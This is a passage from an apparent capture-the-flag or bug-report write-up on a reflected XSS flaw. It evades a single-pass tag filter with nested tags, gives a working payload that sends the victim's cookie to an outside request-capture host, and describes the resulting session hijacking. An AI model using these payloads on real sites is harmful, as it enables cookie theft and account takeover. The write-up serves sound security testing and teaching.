 3. We can evade the single pass filter by nesting blacklisted tags (such as `img` and `script`) or attributes (such as `onerror` and `onload`) together. Use the payload below to invoke arbitrary JavaScript code to display an alert to the user. The payload can be replaced with any arbitrary JavaScript which can lead us to leak client side secrets.

    ```html
    <scri<script>pt>alert(1)</sc</script>ript>
    ```

    ![](images/image-20210808000354949.png)

4. As a proof of concept, we leak the `query-flag` cookie by appending it to a redirect to an attacker controlled server then reporting the page (along with the comment filter parameter) using the payload below.

    ```html
    <imimgg src="x" oneonerrorrror="location.href='http://requestbin.net/r/du0jqnpb/?c='+btoa(document.cookie)"></imimgg>
    ```

![](./images/Pasted%20image%2020210806161838.png)

### Impact

Similar to the impacts mentioned in **P4 HIGH - Stored XSS in Comment Section**, this vulnerability can be chained with the administration system that renders JavaScript on reported pages. This reflected XSS vulnerability can be used to leak sensitive information from privileged clients through capturing client side session tokens from viewers of the reported page. This can lead to an attacker conducting session hijacks with the stolen cookies. With a stolen session, attackers can impersonate that account and post content on behalf of the victim. This could lead to the victim's online persona being compromised by the actions of the attacker.
